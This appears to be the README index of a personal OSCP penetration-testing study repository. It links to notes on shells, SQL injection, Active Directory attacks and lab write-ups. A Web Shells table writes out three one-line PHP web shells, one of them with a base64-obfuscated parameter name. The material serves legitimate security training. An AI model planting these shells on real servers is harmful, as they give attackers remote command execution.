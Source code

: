 # Repository for my OSCP preparation

|Topic|Link|
|---|---|
|cURL|<https://github.com/joetanx/oscp/blob/main/curl.md>|
|Enumerating target|<https://github.com/joetanx/oscp/blob/main/enumeration.md>|
|Getting shells and transferring files to/from target|<https://github.com/joetanx/oscp/blob/main/connect-transfer.md>|
|Port forwarding|<https://github.com/joetanx/oscp/blob/main/port-forwarding.md>|
|SQLi labs|<https://github.com/joetanx/oscp/blob/main/sqli-labs.md>|
|DVWA - SQL injection|<https://github.com/joetanx/oscp/blob/main/dvwa-sqli.md>|
|Attacking Active Directory|<https://github.com/joetanx/oscp/blob/main/attacking-active-directory.md>|
|Windows Privilege Escalation|<https://github.com/joetanx/oscp/blob/main/winprivesc.md>|
|References|<https://github.com/joetanx/oscp/blob/main/references.md>|

# Experience Tracking

## SQL Injection

<https://github.com/joetanx/oscp/blob/main/practice/vulnhub/dc-9.md>

<https://github.com/joetanx/oscp/blob/main/dvwa-sqli.md>

<https://github.com/joetanx/oscp/blob/main/sqli-labs.md>

## Googling for Exploits

<https://github.com/joetanx/oscp/blob/0f6b0a8a5f387bf0decbd6093807f470f9c7e1e8/practice/itsl/2021-10-04-mousekatool2.md>

<https://github.com/joetanx/oscp/blob/main/practice/itsl/2021-11-22-Checks.md>

<https://github.com/joetanx/oscp/blob/main/practice/vulnhub/digitalworld.local-joy.md>

## Web Shells

|   |   |
|---|---|
|`<?php echo passthru($_GET['k']);?>`|<https://github.com/joetanx/oscp/blob/main/practice/itsl/2021-10-24-Dealer313.md>|
|`<?php system($_GET[base64_decode('Y21k')]);?>`|<https://github.com/joetanx/oscp/blob/main/practice/itsl/2022-01-17-Vulndc2.md>|
|`<?php echo passthru($_GET['cmd']); ?>`|<https://github.com/joetanx/oscp/blob/main/practice/vulnhub/digitalworld.local-joy.md>|

## Active Directory

<https://github.com/joetanx/oscp/blob/main/practice/itsl/2022-01-10-VulnDC.md>

<https://github.com/joetanx/oscp/blob/main/practice/itsl/2022-01-17-Vulndc2.md>
